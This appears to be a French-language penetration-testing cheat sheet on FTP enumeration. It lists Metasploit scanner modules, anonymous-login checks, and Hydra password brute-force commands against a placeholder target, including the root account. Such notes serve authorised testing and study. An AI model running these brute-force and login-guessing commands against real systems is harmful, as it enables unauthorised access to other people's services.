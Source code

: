 # 📂 Énumération FTP

[← Retour à la table des matières](../README.md)

## Port par défaut : 21

## Metasploit Modules
```bash
use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/ftp/anonymous
use auxiliary/scanner/ftp/ftp_login
    set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
    set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

## Connexion manuelle
```bash
ftp targetIP
# Tester anonymous:anonymous
```

## Hydra Bruteforce → [📖 Guide Hydra](../06-tools/hydra.md)
```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetIP ftp
hydra -l root -P /root/Desktop/wordlists/unix_passwords.txt ftp://targetIP:5554
```

## Spécificités Linux

### Accès Anonymous
```bash
# Vérifier l'accès anonymous en premier
ftp targetIP
# Username: anonymous
# Password: anonymous (ou email)
```

### Précautions pour le Bruteforce
```bash
# ⚠️ IMPORTANT : Réduire les threads pour éviter de crasher le service
hydra -L users.txt -P passwords.txt -t 3 targetIP ftp
# Option -t 3 ou -t 4 recommandée pour la stabilité
```